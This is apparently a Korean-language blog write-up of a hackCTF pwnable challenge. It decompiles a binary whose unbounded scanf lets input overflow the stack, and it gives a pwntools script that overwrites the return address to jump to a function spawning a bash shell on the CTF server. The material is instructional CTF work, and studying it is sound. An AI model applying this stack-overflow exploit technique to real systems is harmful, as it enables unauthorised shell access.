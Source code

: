 ```yaml
---
layout: post
title:  "[hackCTF]x64 Buffer Overflow"
date:   2020-02-18
---
```


hackCTF pwnable 다섯번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)


## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-110h]
  int v5; // [rsp+11Ch] [rbp-4h]

  _isoc99_scanf("%s", &s, envp); // stdin에서 문자열 형식으로 입력 받아 s에 저장
  v5 = strlen(&s); // s의 길이를 v5에 저장
  printf("Hello %s\n", &s, argv);
  return 0;
}
```
## ida - callMeMaybe
```c
int callMeMaybe()
{
  char* path; // [rsp+0h] [rbp-20h]
  const char* v2; // [rsp+8h] [rbp-18h]
  __int64 v3; // [rsp+10h] [rbp-10h]

  path = "/bin/bash";
  v2 = "-p";
  v3 = 0LL;
  return execve("/bin/bash", &path, 0LL); // 쉘을 띄울 수 있다!
}
```
<br>

정리해보자.<br><br>
***

| ret |           |
|:---:|:---------:|
| sfp |  (8byte)  |
| rbp |           |
| ... |           |
|  s  | rbp-0x110 |

***
<br>
callMeMaybe 함수를 실행시키면 쉘을 띄울 수 있다. 이전 문제와 동일한 방식으로 scanf를 통해 문제를 해결하자.<br><br>
목표 : ret을 callMeMaybe 함수의 주소로 덮기<br>
취약점 : scanf("%s", &s, envp)<br><br><br>
+) callMeMaybe 함수의 주소는 다음과 같다.

![0501](https://drive.google.com/uc?id=1LnLNJrmt7KXM1S5HHWFkw0vQywbEDzOd)

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3004)

payload = "\x90"*0x118+p64(0x400606)

p.sendline(payload)

p.interactive()
```

## 결과
![0502](https://drive.google.com/uc?id=1rK_l0M2NmPspC1udiy0B72-BrBogAAN8)
